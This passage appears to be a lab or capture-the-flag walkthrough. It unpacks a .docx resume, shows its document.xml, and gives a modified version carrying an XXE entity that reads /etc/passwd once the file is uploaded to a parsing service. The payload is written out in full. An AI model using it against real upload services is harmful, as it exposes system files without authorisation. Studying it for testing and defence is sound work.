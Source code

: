```
⛩\> unzip resume.docx
Archive:  resume.docx
  inflating: _rels/.rels
  inflating: docProps/core.xml
  inflating: docProps/app.xml
  inflating: word/_rels/document.xml.rels
  inflating: word/document.xml
  inflating: word/styles.xml
  inflating: word/fontTable.xml
  inflating: word/settings.xml
  inflating: [Content_Types].xml

⛩\> cat word/document.xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<w:document xmlns:o="urn:schemas-microsoft-com:office:office" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" xmlns:v="urn:schemas-microsoft-com:vml" xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:w10="urn:schemas-microsoft-com:office:word" xmlns:wp="http://schemas.openxmlformats.org/drawingml/2006/wordprocessingDrawing" xmlns:wps="http://schemas.microsoft.com/office/word/2010/wordprocessingShape" xmlns:wpg="http://schemas.microsoft.com/office/word/2010/wordprocessingGroup" xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" xmlns:wp14="http://schemas.microsoft.com/office/word/2010/wordprocessingDrawing" xmlns:w14="http://schemas.microsoft.com/office/word/2010/wordml" mc:Ignorable="w14 wp14"><w:body><w:p><w:pPr><w:pStyle w:val="Normal"/><w:bidi w:val="0"/><w:jc w:val="left"/><w:rPr></w:rPr></w:pPr><w:r><w:rPr></w:rPr><w:t>demo</w:t></w:r></w:p><w:sectPr><w:type w:val="nextPage"/><w:pgSz w:w="12240" w:h="15840"/><w:pgMar w:left="1134" w:right="1134" w:header="0" w:top="1134" w:footer="0" w:bottom="1134" w:gutter="0"/><w:pgNumType w:fmt="decimal"/><w:formProt w:val="false"/><w:textDirection w:val="lrTb"/></w:sectPr></w:body></w:document>
```

Edit the file and add below XML Entity at start of the second line.

`<!DOCTYPE xxe [<!ENTITY xxe SYSTEM '`[`file:///etc/passwd`](file:///etc/passwd)`'>]>`

Then find the text which you have typed in the body of word file and remove it then replace with the following `&xxe;`d After uploading the document and it calls our external entity and we can able to read the 'passwd' file.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xxe [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]> <w:document xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" xmlns:wp="http://schemas.openxmlformats.org/drawingml/2006/wordprocessingDrawing" xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:w10="urn:schemas-microsoft-com:office:word" xmlns:w14="http://schemas.microsoft.com/office/word/2010/wordml" xmlns:wps="http://schemas.microsoft.com/office/word/2010/wordprocessingShape" xmlns:wpg="http://schemas.microsoft.com/office/word/2010/wordprocessingGroup" xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" xmlns:v="urn:schemas-microsoft-com:vml" xmlns:o="urn:schemas-microsoft-com:office:office" xmlns:m="http://schemas.openxmlformats.org/officeDocument/2006/math" mc:Ignorable="w14"><w:body><w:p><w:pPr><w:pStyle w:val="Body"/></w:pPr><w:r><w:rPr><w:rtl w:val="0"/></w:rPr><w:t>&xxe;</w:t></w:r></w:p><w:sectPr><w:headerReference w:type="default" r:id="rId4"/><w:footerReference w:type="default" r:id="rId5"/><w:pgSz w:w="12240" w:h="15840" w:orient="portrait"/><w:pgMar w:top="1440" w:right="1440" w:bottom="1440" w:left="1440" w:header="720" w:footer="864"/><w:bidi w:val="0"/></w:sectPr></w:body></w:document>
```

